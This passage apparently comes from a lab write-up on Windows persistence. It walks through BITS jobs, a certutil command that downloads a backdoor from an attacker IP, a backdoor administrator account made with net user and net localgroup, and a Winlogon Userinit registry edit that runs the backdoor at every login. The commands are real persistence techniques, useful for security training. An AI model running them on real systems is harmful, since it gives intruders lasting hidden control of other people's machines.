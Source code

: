 

Finally, we'll start/resume the job.

Note: In order to work you have to have a webserver (i used apache) running so BITS can download the backdoor and Metasploit listening for connections.

To execute the job type: bitsadmin /resume. As can be observed in the below image we received the second connection.



Note: BITS is very unstable and can and might give you just temporary persistence.



# High privilege user persistence
In the previous task, we discussed about low privilege user persistence. Now it's time to discuss about high privilege user persistence.

You will find a few things similar to the ones used for the low privileged user persistence.

Log in to the system using the following credentials: Administrator:Tryhackme123!

Download again and execute the backdoor you earlier created.

certutil -urlcache -split -f http://10.11.43.119/shell.exe

Creating another administrator user

Drop into a shell and create a new user. The syntax is: net user /add <USER> <PASSWORD>.

net user /add Backdoor backdoor

Now just add the username to the local administrators' group.

net localgroup Administrators Backdoor /add 

By checking the users that are in the Administrators' group we can see our newly created and added user:


net localgroup Administrators


Editing registries

We can backdoor the Winlogon so when a user logs in our backdoor will get executed.

The registry used is: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon

Upload the backdoor if you haven't and add the registry entry. The command is:

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\shell.exe" /f



When a user logs in Userinit.exe will be executed and then our backdoor.


